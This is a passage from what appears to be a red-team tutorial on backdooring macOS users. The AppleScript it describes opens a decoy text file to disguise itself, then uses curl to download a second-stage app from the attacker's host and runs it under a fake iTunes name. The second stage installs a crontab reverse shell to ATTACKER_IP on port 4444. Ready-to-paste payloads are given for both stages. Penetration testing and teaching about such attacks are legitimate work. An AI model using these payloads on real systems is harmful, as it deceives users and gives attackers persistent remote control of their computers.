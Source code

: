 * `do shell script "..."` — This string is required at the start of AppleScripts to run Bash (encased in double-quotes) on the target's MacBook.
* `echo 'my password is 123456' > /tmp/passwords.txt` — A new text file is created in the target's /tmp directory called passwords.txt. This is accomplished with echo and should resemble the filename of the AppleScript file intended for the target (passwords.txt). I'm using a very simple string that reads "my password is 123456," it should be more elaborate in a real engagement.
* `open /tmp/passwords.txt -a TextEdit` — After creating the text file, it will immediately open using the TextEdit application (-a). Presenting the target with legitimate content as soon as possible will help convince them the AppleScript is actually a text file. The following commands happen in the background, transparent to the target.
* `p='/tmp/iTunes'` — "p" is used as a variable for /tmp/iTunes. The next few commands use $p to reference the variable to minimize the number of characters required in the attack.
* `curl -s http://192.168.1.XX/iTunes.zip -o $p.zip` — The second AppleScript (iTunes.zip) which contains the backdoor attempt is silently (-s) downloaded from the attacker's system (192.168.1.XX) and saved (-o) with the $p variable. This AppleScript is compressed to make downloading it from the attacker's server easy.
* `unzip $p.zip -d /tmp/` — The .zip is then decompressed using unzip and saved in the target's /tmp directory (-d). It's automatically given the "iTunes.app" filename and extension upon decompression.
* `chmod 7777 $p.app` — The decompressed .app is given permission to execute with chmod.
* `sleep 60` — An arbitrary delay is added before the execution. The value of "60" will introduce a sixty-second pause before performing the proceeding commands in the chain. A much higher value (e.g., 3600) would put more time between when the target clicked on the first AppleScript and when the security notification appears.
* `open -a iTunes.app` — The real iTunes application (-a) is opened to legitimize the accompanied security notification.
* `open $p.app` — Finally, the second AppleScript is executed using the "iTunes" filename and requests access to protected data.
 
### Second AppleScript Technical Details

Below is the (much simpler) Bash script used in the second AppleScript. The command will attempt to create a new TCP connection every sixty-seconds to the attacker's system by abusing `crontab` to establish persistence.

```applescript
do shell script "echo '* * * * *    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' | crontab -"
```

### Create the First AppleScript

The following steps require `Script Editor`, a macOS-only scripting application, designed to create AppleScripts. Readers who don't have access to a Mac computer to follow along should explore the [Empire AppleScript Stager](https://github.com/EmpireProject/Empire/blob/master/lib/stagers/osx/applescript.py).

Open Script Editor and enter the following text in a new document.

```applescript
do shell script "echo 'my password is 123456' > /tmp/passwords.txt && open /tmp/passwords.txt -a TextEdit && p='/tmp/iTunes'; curl -s http://192.168.1.XX/iTunes.zip -o $p.zip && unzip $p.zip -d /tmp/ && chmod 7777 $p.app; sleep 60 && open -a iTunes.app && open $p.app"
```
